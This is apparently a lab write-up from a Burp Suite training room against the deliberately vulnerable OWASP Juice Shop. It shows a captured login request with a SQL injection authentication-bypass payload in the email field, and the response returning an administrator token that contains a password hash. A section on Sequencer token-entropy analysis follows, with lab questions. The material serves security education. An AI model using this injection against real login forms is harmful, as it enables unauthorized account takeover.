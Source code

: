 ```
Request:

POST /rest/user/login HTTP/1.1
Host: 10.10.226.227
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 45
Origin: http://10.10.226.227
Connection: close
Referer: http://10.10.226.227/
Cookie: io=mGLS5iJ7wYcz5840AAAM; cookieconsent_status=dismiss; language=en

{"email":"a' or 1=1--","password":"password"}

Response:

HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Type: application/json; charset=utf-8
Content-Length: 698
ETag: W/"2ba-53SstnURapzo1m2mSnS+exLyxro"
Date: Tue, 20 Jul 2021 22:41:27 GMT
Connection: close

{"authentication":{"token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImlzQWRtaW4iOnRydWUsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwiY3JlYXRlZEF0IjoiMjAyMS0wNy0yMCAyMDowMDoxMy43NTUgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAyMS0wNy0yMCAyMDowMDoxMy43NTUgKzAwOjAwIn0sImlhdCI6MTYyNjgyMDg4NywiZXhwIjoxNjI2ODM4ODg3fQ.GrMac33yoiHqxT0S6MuU8-bU3bkhKFMGk7gL2dKgxx7T0yzf3QK4eOo4kvnSC_hFF7MTgI1briewiWQALEjbSxXE3zm8uvFteiMKaRHOVBM9j94XiDpJFjc3uKxTNJCNS7ZfMXqX_roBpGIRDQxEX-Yh6v8_Bf8BSn3TCMnHWJ0","bid":1,"umail":"admin@juice-sh.op"}}
```

## Sequencer

Sequencer is a tool for analyzing randomness of an app's session tokens and other important items that are meant to be unpredictable (i.e. session tokens, anti-cross-site-request forgery tokens (Anti-CSRF), password reset tokens, etc.). It's not commonly used in testing environments, but they can be useful

### Questions

- Switch over to the HTTP history sub-tab of Proxy.
- We're going to dig for a response which issues a cookie. Parse through the various responses we've received from Juice Shop until you find one that includes a 'Set-Cookie' header.
- Once you've found a request response that issues a cookie, right-click on the request and select 'Send to Sequencer'.
- Change over Sequencer and select 'Start live capture'
- Let Sequencer run and collect ~10,000 requests. Once it hits roughly that amount hit 'Pause' and then 'Analyze now'
- Parse through the results. What is the effective estimated entropy measured in? [``]
- In order to find the usable bits of entropy we often have to make some adjustments to have a normalized dataset. What item is converted in this process? [``]
- Read through the remaining results of the token analysis
